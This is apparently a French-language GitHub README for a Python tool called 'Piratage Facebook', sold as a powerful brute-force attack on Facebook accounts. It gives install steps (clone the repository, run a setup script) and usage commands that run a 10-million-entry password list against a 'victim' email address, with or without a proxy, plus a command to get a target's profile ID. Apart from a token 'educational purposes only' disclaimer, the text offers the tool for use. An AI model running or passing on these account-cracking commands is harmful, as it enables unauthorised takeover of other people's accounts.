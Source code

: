 Piratage Facebook
![image]
(file_00000000232c61fd91fb311b1688247b.png)
###### Puissante attaque par force brute sur Facebook.
***
### <p align="center">Commandes pour exécuter l'outil dans votre terminal Termux et Kali Linux
***

```bash
Remarque : Cet outil est conçu à des fins éducatives uniquement.
Veuillez ne pas endommager les appareils de qui que ce soit.
C'est pour juste testée, pas pour se venger.
 by rebelle masque 
```
## Langage utilisé pour créer cet outil :
- Python

## L'outil est compatible avec :
- Windows
- Kali Linux
- Android~Termux
- macOS
- Tous les systèmes d'exploitation utilisent Python (2.x, 3.x) avec les modules requis.

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/RebelleMasque/Facebook_force-bruit-spy.git
```
```bash
cd Facebook_force-bruit-spy
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## Utilisation :
- **Vous pouvez utiliser Victim Adresse e-mail ou identifiant de profil Facebook** :

- **Force brute sur un compte Facebook sans proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt

- **Force brute sur un compte Facebook avec proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

- **Obtenir l'identifiant de profil Facebook cible** :

* **Commande** : python facebook_hack.py -g https://www.facebook.com/exemple
